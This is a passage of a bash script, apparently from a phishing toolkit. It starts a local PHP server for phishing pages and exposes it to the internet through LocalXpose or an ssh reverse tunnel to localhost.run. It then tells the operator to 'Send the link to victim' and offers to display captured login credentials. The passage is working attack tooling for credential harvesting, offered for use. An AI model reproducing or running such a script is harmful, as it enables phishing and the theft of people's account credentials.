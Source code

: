 printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalTunnel ...\e[0m\n"

cd .htr/www && php -S 127.0.0.1:4142 > /dev/null 2>&1 & 

if [[ $loclx_custom_subdomain == true ]]; then

./.htr/loclx tunnel http --to :4142 --subdomain $loclx_subdomain > .nexlink 2> /dev/null &

sleep 8

else

./.htr/loclx tunnel http --to :4142 > .nexlink 2> /dev/null &

sleep 8

fi

loclx_link=$(grep -o 'https://[0-9a-z]*\.loclx.io ' .nexlink)

smallbanner

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $loclx_link

datafound

}

start_localhostrun() {

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalHostRun ...\e[0m\n"

cd .htr/www && php -S 127.0.0.1:4545 > /dev/null 2>&1 & 

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4545\e[0m\e[1;91m )\e[0m\n"

sleep 1

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Press Ctrl+C to View Login Creds \e[0m\n"

sleep 1

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m"

ssh -R 80:localhost:4545 ssh.localhost.run

printf "\e[0m\n"

printf "\n"
